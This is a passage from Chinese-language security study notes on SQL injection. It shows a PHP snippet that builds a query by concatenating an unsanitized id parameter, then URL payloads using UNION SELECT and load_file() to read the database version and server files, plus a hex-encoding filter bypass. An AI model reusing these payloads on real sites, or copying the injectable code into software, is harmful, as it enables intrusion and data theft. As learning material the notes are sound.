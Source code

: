 ```
    $sql = "select username,password from workdb.users where id=" . $pms;
    echo "SQL：" . $sql . "<br/>";

    $result = $conn->query($sql);
    if($result->num_rows > 0){
        while($row = $result->fetch_assoc()){
            echo "username：" . $row["username"] . "，name：" . $row["password"] . "<br/>";
        }
    } else {
        echo "no results";
    }
    $conn->close();
?>
```

本案成功前提：配置文件中设置了`secure-file-priv=`、`root允许远程登录`

> PS：如有更好方法，还望大牛指教



### 3.3.信息查询

url构造：`index.php?id=1 union select @@version,@@plugin_dir`

![base](004_第四周—数据库系统功能相关学习/1127869-20190825105811381-1629305820-1567178504754.png)

url构造查询：`index.php?id=1 union select load_file('D:\\Program Files (x86)\\phpstudy_pro\\WWW\\index.php'),concat(@@version_compile_os,'，',@@version_compile_machine)`

> PS：如果遇到特殊字符屏蔽可以使用16进制（上面场景中我已经说过）

![web](004_第四周—数据库系统功能相关学习/1127869-20190825142339272-1107383791-1567178504701.png)

##### Linux
